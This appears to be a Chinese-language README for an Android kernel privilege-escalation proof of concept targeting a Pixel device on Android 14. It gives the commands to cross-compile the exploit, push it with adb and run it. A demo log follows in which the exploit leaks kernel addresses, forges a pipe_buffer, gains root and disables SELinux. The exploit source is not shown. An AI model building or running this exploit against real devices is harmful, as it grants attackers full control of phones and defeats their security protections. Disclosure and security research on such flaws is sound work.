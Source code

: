 ## 汇编  
  
要将漏洞编译为独立的二进制文件，请使用以下命令，然后使用 adb shell 运行它  
```
$ aarch64-linux-androidXX-clang++ -static-libstdc++ -w -Wno-c++11-narrowing -DUSE_STANDALONE -o poc poc.cpp -llog
$ adb push poc /data/local/tmp/
$ adb shell /data/local/tmp/poc
```  
  
Copy  
  
还可以通过 Android Studio 应用程序将此目录嵌入其中来运行该漏洞，并确保通过向 cmake 文件添加 -w -Wno-c++11-narrowing 来禁用无用的 C++ 警告。  
# Demo演示  
```
$ adb logcat  |grep -i EXPLOIT
11-28 16:04:12.500  7989  7989 E EXPLOIT : [+] Target device: 'google/husky/husky:14/UD1A.231105.004/11010374:user/release-keys' 0xa9027bfdd10203ff 0xa90467faa9036ffc
11-28 16:04:15.563  7989  7989 E EXPLOIT : [+] Got the kcpu_id (0) kernel address = 0xffffff8901390000  from context (0x0)
11-28 16:04:18.441  7989  7989 E EXPLOIT : [+] Got the kcpu_id (255) kernel address = 0xffffff89b0bf8000  from context (0xff)
11-28 16:04:18.442  7989  7989 E EXPLOIT : [+] Found corrupted pipe with size 0xfff
11-28 16:04:18.442  7989  7989 E EXPLOIT : [+] SUCCESS! we have a fake pipe_buffer (0)!
11-28 16:04:18.444  7989  7989 E EXPLOIT : 10 00 39 01 89 FF FF FF  10 00 39 01 89 FF FF FF  | ..9.......9.....
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 B0 CD 12 C0 FF FF FF  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.445  7989  7989 E EXPLOIT : [+] Freeing kcpu_id = 0 (0xffffff8901390000)
11-28 16:04:18.446  7989  7989 E EXPLOIT : [+] Allocating 61 pipes with 256 slots
11-28 16:04:18.462  7989  7989 E EXPLOIT : [+] Successfully overlapped the kcpuqueue object with a pipe buffer
11-28 16:04:18.463  7989  7989 E EXPLOIT : 40 AB BA 26 FE FF FF FF  00 00 00 00 30 00 00 00  | @..&........0...
11-28 16:04:18.463  7989  7989 E EXPLOIT : 70 37 8D F1 DA FF FF FF  10 00 00 00 00 00 00 00  | p7..............
11-28 16:04:18.463  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00                           | ........
11-28 16:04:18.463  7989  7989 E EXPLOIT : [+] pipe_buffer {.page = 0xfffffffe26baab40, .offset = 0x0, .len = 0x30, ops = 0xffffffdaf18d3770}
11-28 16:04:18.463  7989  7989 E EXPLOIT : [+] kernel base = 0xffffffdaf0010000, kthreadd_task = 0xffffff8002da3780 selinux_state = 0xffffffdaf28a3168
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Found our own task struct 0xffffff88416c5c80
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Successfully got root: getuid() = 0 getgid() = 0
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Successfully disabled SELinux
11-28 16:04:20.102  7989  7989 E EXPLOIT : [+] Cleanup  ... OK
```  
  